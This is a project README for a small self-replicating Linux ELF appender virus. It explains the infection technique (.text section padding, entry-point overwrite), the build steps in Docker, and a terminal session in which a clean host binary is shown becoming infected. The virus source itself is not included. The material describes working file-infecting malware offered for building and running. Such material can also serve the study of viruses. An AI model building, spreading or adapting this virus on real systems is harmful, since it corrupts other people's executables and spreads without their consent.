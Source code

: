 ELF x86 32bit appender virus in 800b
====================================
The virus infects every infectable elf executable in the current directory using [Silvio's](https://en.wikipedia.org/wiki/Silvio_Cesare) classic .text section padding technique. Without debugging symbols it comes in at 800b

* mmap host for improved efficiency 
* virus length using jmp trick so no bootstrapping
* overwrites ELF header entry point

Compile
-------

The virus now runs in docker although you do not have to use docker. To compile the image run 

`docker build -t virus .`. 

To run the image use the `docker.sh` script. Once inside the docker container do `cd /virus/ && make` to compile. The virus code and host will be stored in `/tmp`

```
18:57 $ ./docker.sh

root@5d3f53a66f94:/# cd /virus/
root@5d3f53a66f94:/virus# make
root@5d3f53a66f94:/virus# cd /tmp/

root@203ff78bcad2:/tmp# ./host
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
cb261f205ba23d2fcc49fecbcd91e072  host
entry point address:               0x8048320
host is clean

root@5d3f53a66f94:/tmp# ./info.sh appender
**** appender ****
81cb4c926b9da8cea19806f1fda2c658  appender
entry point address:              0x80482f0
appender is infected

root@203ff78bcad2:/tmp# ./appender
infect
root@203ff78bcad2:/tmp# ./host
infect
hello world

root@5d3f53a66f94:/tmp# ./info.sh host
**** host ****
72f68dd92d78201725a85b4b00254848  host
entry point address:               0x80485bd
host is infected
```
